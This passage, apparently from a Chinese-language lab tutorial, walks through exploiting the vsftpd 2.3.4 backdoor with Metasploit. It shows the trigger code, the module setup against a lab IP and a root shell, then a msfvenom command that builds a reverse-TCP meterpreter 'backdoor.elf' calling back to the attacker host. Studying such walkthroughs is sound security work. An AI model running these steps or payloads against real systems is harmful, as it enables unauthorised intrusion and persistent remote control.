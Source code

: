 而触发漏洞函数的代码逻辑位于：

```c
// vsftpd-2.3.4/str.c
else if((p_str->p_buf[i]==0x3a) && (p_str->p_buf[i+1]==0x29)){
    vsf_sysutil_extra();
}
```

### Exploit

下面我们配置模块：

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 172.16.56.130
RHOST => 172.16.56.130
msf exploit(unix/ftp/vsftpd_234_backdoor) > show payloads

Compatible Payloads
===================

   Name               Disclosure Date  Rank    Description
   ----               ---------------  ----    -----------
   cmd/unix/interact                   normal  Unix Command, Interact with Established Connection

msf exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact
payload => cmd/unix/interact
```

成功获得一个root shell：

![Screen Shot 2018-10-18 at 2.13.57 PM.png]({{ site.url }}/images/metasploit/494C446FD6EBA72CAE96A4DD569E573E.png)

下面我们尝试将普通shell提升为meterpreter。首先在攻击者机器上制作一个针对目标系统的后门文件：

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.56.1 LPORT=4444 -f elf >backdoor.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
```
